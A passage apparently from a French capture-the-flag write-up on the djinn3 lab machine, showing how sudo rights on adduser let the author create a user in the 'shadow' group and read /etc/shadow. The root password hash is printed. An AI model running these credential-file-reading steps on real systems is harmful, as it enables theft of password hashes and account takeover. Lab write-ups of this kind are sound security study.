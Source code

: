 Une solution alternative pourrait être de créer un utilisateur membre du groupe `shadow` afin de lire les mots de passe du système :

```shellsession
saint@djinn3:~$ cat /etc/group | grep shadow
shadow:x:42:
saint@djinn3:~$ sudo /usr/sbin/adduser --gid 42 --shell /bin/bash shadow
Adding user `shadow' ...
Adding new user `shadow' (1005) with group `shadow' ...
Creating home directory `/home/shadow' ...
Copying files from `/etc/skel' ...
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
Changing the user information for shadow
Enter the new value, or press ENTER for the default
        Full Name []: 
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
Is the information correct? [Y/n] y
saint@djinn3:~$ su shadow
Password: 
shadow@djinn3:/home/saint$ id
uid=1005(shadow) gid=42(shadow) groups=42(shadow)
shadow@djinn3:/home/saint$ head /etc/shadow
root:$6$YPyhO8kL$i1sogRL.8t9NdMgPw7Ng/lzus2Q3yocQhSW8eMDqiGDPjejKI1qS.Y241qm6kwZYd4JDsgL6Rtkv29rTZBHbk0:18387:0:99999:7:::
--- snip ---
```

Il faut toutefois être en mesure de casser les hashs ensuite.

*Publié le 22 novembre 2022*
